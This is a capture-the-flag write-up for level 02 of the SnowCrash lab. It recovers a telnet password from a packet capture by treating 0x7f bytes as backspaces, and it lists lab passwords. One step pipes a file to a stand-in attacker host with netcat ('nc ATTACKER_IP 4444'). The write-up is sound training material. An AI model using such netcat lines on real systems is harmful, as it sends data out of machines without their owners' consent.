 # LEVEL 02

> [!TIP]
> user: `level02` <br>
> pass: `f2av5il02puano7naaf6adaaf`

## STEP 01

Retrieve the [level02.pcap](https://github.com/Pixailz/SnowCrash/tree/main/level02/resources/level02.pcap) file

> on the attacker machine
```bash
nc -lvp 4444 > level02.pcap
```

> on the snowcrash machine
```bash
cat level02.pcap | nc ATTACKER_IP 4444
```

## STEP 02

Opening the **level02.pcap** file with Wireshark show us a TCP stream from a
TELNET session, i believe

Here is the followed stream output
```
..%..%..&..... ..#..'..$..&..... ..#..'..$.. .....#.....'........... .38400,38400....#.SodaCan:0....'..DISPLAY.SodaCan:0......xterm.........."........!........"..".....b........b....	B.
..............................1.......!.."......"......!..........."........"..".............	..
.....................
Linux 2.6.38-8-generic-pae (::ffff:10.1.1.2) (pts/10)

..wwwbugs login: l.le.ev.ve.el.lX.X
..
Password: ft_wandr...NDRel.L0L
.
..
Login incorrect
wwwbugs login:                                      n:
```

## STEP 03

A little bit of guessing

It seems that we need to go deeper with the **Password: ft_wandr...NDRel.L0L**
part

> [!TIP]
> '.' represent 0x7f and it's not printable, that's why it's represented with
> '.'

So guessing that those 0x7f is a **backspace**, deleting and reformating give us
the following password
`ft_waNDReL0L`

> [!IMPORTANT]
> the password for the next level is `kooda2puivaav1idi4f57q8iq`
